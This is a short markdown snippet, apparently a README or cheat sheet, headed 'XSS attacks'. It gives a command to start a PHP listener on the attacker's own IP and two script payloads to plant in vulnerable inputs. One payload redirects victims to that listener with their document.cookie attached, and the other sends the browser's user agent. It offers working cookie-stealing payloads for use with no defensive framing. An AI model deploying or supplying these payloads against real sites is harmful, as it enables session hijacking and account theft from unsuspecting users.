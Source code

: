 ## XSS attacks

### run below command first
```
php -S <lcoal_ip>:8000
```

### place below code in vulnerable inputs
get the cookie
```
<script>window.location='<lcoal_ip>:8000/?cookie='+document.cookie</script>
```
get browser type
```
<script>window.location='<lcoal_ip>:8000/?cookie='+navigator.userAgent</script>
```
